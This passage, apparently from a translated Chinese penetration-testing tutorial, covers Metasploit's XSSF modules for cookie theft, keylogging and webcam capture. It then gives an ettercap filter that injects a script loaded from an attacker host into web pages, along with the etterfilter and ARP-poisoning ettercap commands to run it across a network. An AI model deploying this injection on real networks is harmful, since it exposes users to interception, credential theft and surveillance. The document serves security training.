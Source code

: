 `run`命令的执行如下截图所示：

![跨站脚本框架](img/3121OS_11_13.jpg)

攻击完成后，可以通过查看 XSSF 日志页面的结果或直接使用命令来找到 cookie，如下截图所示：

![跨站脚本框架](img/3121OS_11_14.jpg)

`auxiliary/xssf/public/misc`中的一些其他有用的命令包括：

+   `check_connected`：此命令检查受害者是否已打开任何社交网络站点（Gmail、Facebook 或 Twitter）

+   `csrf`：它发动跨站点请求伪造攻击

+   `keylogger`：此命令在客户端上调用键盘记录器

+   `load_applet`和`load_pdf`：这些命令在客户端上加载恶意的 Java 小程序和 PDF 文件，并调用它们来启动预先配置的恶意软件

+   `redirect`：将客户端重定向到指定的网页

+   `webcam_capture`：此命令从客户端的网络摄像头中捕获图像

这只是一个不完整的列表，但它显示了该工具的发展程度。此外，还有一些用于网络扫描和发动拒绝服务攻击的模块，以及一些用于确保攻击完成后持久性的模块。

XSSF 还可以与 ettercap 一起用于破坏内部网络。例如，ettercap 可以用于将`</head>`数据替换为指向恶意页面的链接，方法是在名为`attack`的过滤器中放置以下代码：

```
if (ip.proto == TCP && tcp.src == 80) {
  if (search(DATA.data, "</head>")) {
    replace("</head>", "</head><script src=\"http://192.168.43.130:8888/test.html\"></script> ");
  }
}
```

然后必须使用以下命令将过滤脚本转换为二进制文件：

```
 etterfilter attack.filter –o attack.ef

```

要对网络上的所有用户发动此攻击，请使用以下命令执行`ettercap`：

```
 ettercap –T –q –F attack.ef –M ARP // //

```
